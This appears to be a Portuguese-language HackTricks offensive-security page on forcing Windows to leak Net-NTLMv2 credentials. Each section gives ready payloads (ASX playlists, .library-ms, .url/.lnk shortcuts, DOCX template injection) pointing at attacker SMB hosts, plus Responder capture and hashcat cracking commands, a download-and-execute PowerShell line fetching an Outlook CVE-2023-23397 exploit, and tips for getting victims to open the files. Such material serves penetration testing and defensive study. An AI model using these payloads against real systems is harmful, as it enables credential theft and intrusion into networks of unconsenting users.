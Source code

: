 # Locais para roubar NTLM creds

{{#include ../../banners/hacktricks-training.md}}

**Confira todas as ótimas ideias de [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) — desde o download de um microsoft word file online até a ntlm leaks source: https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/README.md and [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)**


### Playlists do Windows Media Player (.ASX/.WAX)

Se conseguir fazer com que um alvo abra ou visualize uma playlist do Windows Media Player que você controla, pode leak Net‑NTLMv2 apontando a entrada para um caminho UNC. O WMP tentará buscar a mídia referenciada via SMB e se autenticará implicitamente.

Exemplo de payload:
```xml
<asx version="3.0">
<title>Leak</title>
<entry>
<title></title>
<ref href="file://ATTACKER_IP\\share\\track.mp3" />
</entry>
</asx>
```
Fluxo de coleta e cracking:
```bash
# Capture the authentication
sudo Responder -I <iface>

# Crack the captured NetNTLMv2
hashcat hashes.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
### Vazamento NTLM de .library-ms embutido em ZIP (CVE-2025-24071/24055)

O Windows Explorer trata de forma insegura arquivos .library-ms quando eles são abertos diretamente de dentro de um arquivo ZIP. Se a definição da library apontar para um caminho UNC remoto (por exemplo, \\attacker\share), simplesmente navegar/abrir o .library-ms dentro do ZIP faz com que o Explorer enumere o UNC e emita autenticação NTLM ao atacante. Isso gera um NetNTLMv2 que pode ser quebrado offline ou potencialmente relayed.

Exemplo mínimo de .library-ms apontando para um UNC do atacante
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<version>6</version>
<name>Company Documents</name>
<isLibraryPinned>false</isLibraryPinned>
<iconReference>shell32.dll,-235</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<simpleLocation>
<url>\\10.10.14.2\share</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
Passos operacionais
- Crie o arquivo .library-ms com o XML acima (defina seu IP/hostname).
- Compacte-o (no Windows: Send to → Compressed (zipped) folder) e entregue o ZIP ao alvo.
- Execute um listener de captura NTLM e aguarde a vítima abrir o .library-ms de dentro do ZIP.


### Outlook calendar reminder sound path (CVE-2023-23397) – zero‑click Net‑NTLMv2 leak

O Microsoft Outlook for Windows processava a propriedade MAPI estendida PidLidReminderFileParameter em itens de calendário. Se essa propriedade apontasse para um UNC path (por exemplo, \\attacker\share\alert.wav), o Outlook contataria o SMB share quando o lembrete disparasse, leaking o Net‑NTLMv2 do usuário sem qualquer clique. Isso foi corrigido em 14 de março de 2023, mas continua altamente relevante para frotas legadas/sem atualizações e para resposta a incidentes histórica.

Exploração rápida com PowerShell (Outlook COM):
```powershell
# Run on a host with Outlook installed and a configured mailbox
IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/api0cradle/CVE-2023-23397-POC-Powershell/main/CVE-2023-23397.ps1)
Send-CalendarNTLMLeak -recipient user@example.com -remotefilepath "\\10.10.14.2\share\alert.wav" -meetingsubject "Update" -meetingbody "Please accept"
# Variants supported by the PoC include \\host@80\file.wav and \\host@SSL@443\file.wav
```
Lado do Listener:
```bash
sudo responder -I eth0  # or impacket-smbserver to observe connections
```
Notas
- A vítima só precisa ter o Outlook for Windows em execução quando o lembrete disparar.
- O leak produz Net‑NTLMv2 adequado para offline cracking ou relay (não pass‑the‑hash).


### .LNK/.URL icon-based zero‑click NTLM leak (CVE‑2025‑50154 – bypass of CVE‑2025‑24054)

Windows Explorer exibe ícones de atalho automaticamente. Pesquisas recentes mostraram que, mesmo após o patch da Microsoft de abril de 2025 para atalhos com ícone UNC, ainda era possível acionar a autenticação NTLM sem cliques hospedando o alvo do atalho em um caminho UNC e mantendo o ícone local (o bypass do patch foi atribuído CVE‑2025‑50154). Apenas visualizar a pasta faz com que o Explorer recupere metadados do alvo remoto, emitindo NTLM para o servidor SMB do atacante.

Minimal Internet Shortcut payload (.url):
```ini
[InternetShortcut]
URL=http://intranet
IconFile=\\10.10.14.2\share\icon.ico
IconIndex=0
```
Atalho de Programa payload (.lnk) via PowerShell:
```powershell
$lnk = "$env:USERPROFILE\Desktop\lab.lnk"
$w = New-Object -ComObject WScript.Shell
$sc = $w.CreateShortcut($lnk)
$sc.TargetPath = "\\10.10.14.2\share\payload.exe"  # remote UNC target
$sc.IconLocation = "C:\\Windows\\System32\\SHELL32.dll" # local icon to bypass UNC-icon checks
$sc.Save()
```
Delivery ideas
- Coloque o atalho em um ZIP e faça com que a vítima o abra.
- Coloque o atalho em um compartilhamento gravável que a vítima irá abrir.
- Combine com outros arquivos isca na mesma pasta para que o Explorer pré-visualize os itens.


### Office remote template injection (.docx/.dotm) to coerce NTLM

Documentos do Office podem referenciar um template externo. Se você configurar o template anexado para um caminho UNC, abrir o documento irá autenticar para SMB.

Minimal DOCX relationship changes (inside word/):

1) Edite word/settings.xml e adicione a referência do template anexado:
```xml
<w:attachedTemplate r:id="rId1337" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"/>
```
2) Edite word/_rels/settings.xml.rels e aponte rId1337 para o seu UNC:
```xml
<Relationship Id="rId1337" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="\\\\10.10.14.2\\share\\template.dotm" TargetMode="External" xmlns="http://schemas.openxmlformats.org/package/2006/relationships"/>
```
3) Reempacote para .docx e entregue. Inicie seu SMB capture listener e aguarde a abertura.

Para ideias pós-captura sobre relaying ou abuso do NTLM, consulte:

{{#ref}}
README.md
{{#endref}}


## Referências
- [HTB Fluffy – ZIP .library‑ms auth leak (CVE‑2025‑24071/24055) → GenericWrite → AD CS ESC16 to DA (0xdf)](https://0xdf.gitlab.io/2025/09/20/htb-fluffy.html)
- [HTB: Media — WMP NTLM leak → NTFS junction to webroot RCE → FullPowers + GodPotato to SYSTEM](https://0xdf.gitlab.io/2025/09/04/htb-media.html)
- [Morphisec – 5 NTLM vulnerabilities: Unpatched privilege escalation threats in Microsoft](https://www.morphisec.com/blog/5-ntlm-vulnerabilities-unpatched-privilege-escalation-threats-in-microsoft/)
- [MSRC – Microsoft mitigates Outlook EoP (CVE‑2023‑23397) and explains the NTLM leak via PidLidReminderFileParameter](https://www.microsoft.com/en-us/msrc/blog/2023/03/microsoft-mitigates-outlook-elevation-of-privilege-vulnerability/)
- [Cymulate – Zero‑click, one NTLM: Microsoft security patch bypass (CVE‑2025‑50154)](https://cymulate.com/blog/zero-click-one-ntlm-microsoft-security-patch-bypass-cve-2025-50154/)


{{#include ../../banners/hacktricks-training.md}}
